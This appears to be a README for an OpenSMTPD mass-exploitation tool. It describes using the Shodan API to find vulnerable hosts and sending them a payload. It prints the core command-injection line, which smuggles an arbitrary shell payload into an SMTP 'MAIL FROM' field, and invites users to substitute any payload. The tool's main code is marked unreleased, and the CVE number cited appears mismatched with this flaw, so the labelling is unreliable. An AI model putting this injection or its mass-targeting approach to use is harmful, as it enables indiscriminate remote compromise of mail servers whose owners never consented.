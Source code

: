 # OpenSMTPD
A mass exploitation tool for CVE 2020-8793 

----------------------------------------------------------------------------------

# Info

The Shodan API to find vulnerable devices and mass sends a payload to the target

To customize the payload :
s.send(bytes(f'MAIL FROM:<;{payload};>\r\n', 'utf-8'))
Change the variable 'payload' to your desired payload 

----------------------------------------------------------------------------------


# TODO

- [ ] Release Main Code
- [ ] Add Threading
- [ ] Add Payload Input
- [ ] Make Error Outputs
- [ ] Make Time Logs

----------------------------------------------------------------------------------

# Systems

- Tested Systems:
  - Parrot OS Home
  - Kali Linux Mate
  - Windows 10
  - Windows 7
  - Ubuntu 20.2

----------------------------------------------------------------------------------

# Example

![Picture]()
